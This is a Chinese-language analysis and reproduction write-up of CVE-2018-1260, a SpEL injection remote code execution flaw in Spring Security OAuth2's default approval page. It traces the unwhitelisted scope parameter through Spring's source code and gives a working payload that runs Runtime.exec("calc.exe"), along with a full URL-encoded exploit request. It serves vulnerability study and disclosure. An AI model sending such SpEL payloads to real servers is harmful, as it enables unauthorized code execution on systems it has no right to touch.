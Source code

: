 （CVE-2018-1260）Spring Security Oauth2 远程代码执行
====================================================

一、漏洞简介
------------

二、漏洞影响
------------

Spring Security OAuth 2.3 to 2.3.2Spring Security OAuth 2.2 to 2.2.1Spring Security OAuth 2.1 to 2.1.1Spring Security OAuth 2.0 to 2.0.14

三、复现过程
------------

### 漏洞分析

先简要补充一下关于OAuth2.0的相关知识。![1.png](./.resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId25.png)以上图为例。当用户使用客户端时，客户端要求授权，即图中的AB。接着客户端通过在B中获得的授权向认证服务器申请令牌，即access
token。最后在EF阶段，客户端带着access token向资源服务器请求并获得资源。

在获得access
token之前，客户端需要获得用户的授权。根据标准，有四种授权方式：授权码模式（authorization
code）、简化模式（implicit）、密码模式（resource owner password
credentials）、客户端模式（client
credentials）。在这几种模式中，当客户端将用户导向认证服务器时，都可以带上一个可选的参数`scope`，这个参数用于表示客户端申请的权限的范围。

，根据[官方文档](http://projects.spring.io/spring-security-oauth/docs/oauth2.html)，在spring-security-oauth的默认配置中scope参数默认为空：

    scope: The scope to which the client is limited. If scope is undefined or empty (the default) the client is not limited by scope.

为明白起见，我们在demo中将其清楚写出：

    clients.inMemory()
            .withClient("client")
            .authorizedGrantTypes("authorization_code")
            .scopes();

接着开始正式分析。当我们访问`http://localhost:8080/oauth/authorize`重定向至`http://localhost:8080/login`并完成login后程序流程到达org/springframework/security/oauth2/provider/endpoint/AuthorizationEndpoint.java，这里贴上部分代码：

    @RequestMapping(value = "/oauth/authorize")
    public ModelAndView authorize(Map<String, Object> model, @RequestParam Map<String, String> parameters,
            SessionStatus sessionStatus, Principal principal) {

        // Pull out the authorization request first, using the OAuth2RequestFactory. All further logic should
        // query off of the authorization request instead of referring back to the parameters map. The contents of the
        // parameters map will be stored without change in the AuthorizationRequest object once it is created.
        AuthorizationRequest authorizationRequest = getOAuth2RequestFactory().createAuthorizationRequest(parameters);

        try {
            ...
            // We intentionally only validate the parameters requested by the client (ignoring any data that may have
            // been added to the request by the manager).
            oauth2RequestValidator.validateScope(authorizationRequest, client);
            ...

            // Place auth request into the model so that it is stored in the session
            // for approveOrDeny to use. That way we make sure that auth request comes from the session,
            // so any auth request parameters passed to approveOrDeny will be ignored and retrieved from the session.
            model.put("authorizationRequest", authorizationRequest);

            return getUserApprovalPageResponse(model, authorizationRequest, (Authentication) principal);

        }
        ...

第115行![2.png](./.resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId27.png)在执行完`AuthorizationRequest authorizationRequest = ...`后，`authorizationRequest`代表了要认证的请求，其中包含了众多参数![3.png](./.resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId28.png)

在经过了对一些参数的处理，比如RedirectUri等，之后到达第156行：

    // We intentionally only validate the parameters requested by the client (ignoring any data that may have
    // been added to the request by the manager).
    oauth2RequestValidator.validateScope(authorizationRequest, client);

在这里将对`scope`参数进行验证。跟入`validateScope`到org/springframework/security/oauth2/provider/request/DefaultOAuth2RequestValidator.java:19

    public class DefaultOAuth2RequestValidator implements OAuth2RequestValidator {

        public void validateScope(AuthorizationRequest authorizationRequest, ClientDetails client) throws InvalidScopeException {
            validateScope(authorizationRequest.getScope(), client.getScope());
        }
        ...
    }

继续跟入`validateScope`，至
org/springframework/security/oauth2/provider/request/DefaultOAuth2RequestValidator.java:28

    private void validateScope(Set<String> requestScopes, Set<String> clientScopes) {

        if (clientScopes != null && !clientScopes.isEmpty()) {
            for (String scope : requestScopes) {
                if (!clientScopes.contains(scope)) {
                    throw new InvalidScopeException("Invalid scope: " + scope, clientScopes);
                }
            }
        }
        
        if (requestScopes.isEmpty()) {
            throw new InvalidScopeException("Empty scope (either the client or the user is not allowed the requested scopes)");
        }
    }

首先检查`clientScopes`，这个`clientScopes`即我们在前面configure中配置的`.scopes();`，倘若不为空，则进行白名单检查。举个例子，如果前面配置`.scopes("chybeta");`，则传入`requestScopes`必须为`chybeta`，否则会直接抛出异常`Invalid scope:xxx`。但由于此处查`clientScopes`为空值，则接下来仅仅做了`requestScopes.isEmpty()`的检查并且通过。

在完成了各项检查和配置后，在`authorize`函数的最后执行：

    return getUserApprovalPageResponse(model, authorizationRequest, (Authentication) principal);

回想一下前面OAuth2.0的流程，在客户端请求授权（A），用户登陆认证（B）后，将会进行用户授权（C），这里即开始进行正式的授权阶段。跟入`getUserApprovalPageResponse`
至org/springframework/security/oauth2/provider/endpoint/AuthorizationEndpoint.java:241：![4.png](./.resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId29.png)

生成对应的model和view，之后将会forward到/oauth/confirm\_access。为简单起见，我省略中间过程，直接定位到org/springframework/security/oauth2/provider/endpoint/WhitelabelApprovalEndpoint.java:20

public class WhitelabelApprovalEndpoint {\@RequestMapping(\"/oauth/confirm\_access\")public ModelAndView getAccessConfirmation(Map\<String, Object\> model,
HttpServletRequest request) throws Exception {String template = createTemplate(model, request);if (request.getAttribute(\"\_csrf\") != null) {model.put(\"\_csrf\", request.getAttribute(\"\_csrf\"));}return new ModelAndView(new SpelView(template), model);}\...}跟入createTemplate，第29行：

protected String createTemplate(Map\<String, Object\> model,
HttpServletRequest request) {String template = TEMPLATE;if (model.containsKey(\"scopes\") \|\| request.getAttribute(\"scopes\")
!= null) {template = template.replace(\"%scopes%\", createScopes(model,
request)).replace(\"%denial%\", \"\");}\...return template;}跟入createScopes，第46行：![5.png](./.resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId30.png)

这里获取到了`scopes`，并且通过for循环生成对应的`builder`，其实就是html和一些标签等，最后返回的即`builder.toString()`,其值如下:

    <ul><li><div>scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}: <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='true'>Approve</input> <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='false' checked>Deny</input></div></li></ul>

`createScopes`结束后将会把上述`builder.toString()`拼接到`template`中。`createTemplate`结束后，在`getAccessConfirmation`的最后：

    return new ModelAndView(new SpelView(template), model);

根据`template`生成对应的`SpelView`对象，这是其构造函数：![6.png](./.resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId31.png)此后在页面渲染的过程中，将会执行页面中的Spel表达式`${T(java.lang.Runtime).getRuntime().exec("calc.exe")}`从而造成代码执行。

![7.png](./.resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId32.png)

所以综上所述，这个任意代码执行的利用条件实在"苛刻"：

1.  需要`scopes`没有配置白名单，否则直接`Invalid scope:xxx`。不过大部分OAuth都会限制授权的范围，即指定scopes。
2.  使用了默认的Approval
    Endpoint，生成对应的template，在spelview中注入spel表达式。不过可能绝大部分使用者都会重写这部分来满足自己的需求，从而导致spel注入不成功。

### 漏洞复现

利用github上已有的demo：

    git clone https://github.com/wanghongfei/spring-security-oauth2-example.git

确保导入的spring-security-oauth2为受影响版本，以这里为例为2.0.10进入spring-security-oauth2-example，修改
cn/com/sina/alan/oauth/config/OAuthSecurityConfig.java的第67行:

    @Override
    public void configure(ClientDetailsServiceConfigurer clients) throws Exception {
       clients.inMemory()
                .withClient("client")
                .authorizedGrantTypes("authorization_code")
                .scopes();
    }

根据[spring-security-oauth2-example](https://github.com/wanghongfei/spring-security-oauth2-example.git)创建对应的数据库等并修改AlanOAuthApplication中对应的mysql相关配置信息。

访问：

    http://www.0-sec.org:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.github.com/chybeta&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22calc.exe%22%29%7D

会重定向到login页面，随意输入username和password，点击login，触发payload。![3.gif](./.resource/(CVE-2018-1260)SpringSecurityOauth2远程代码执行/media/rId35.gif)

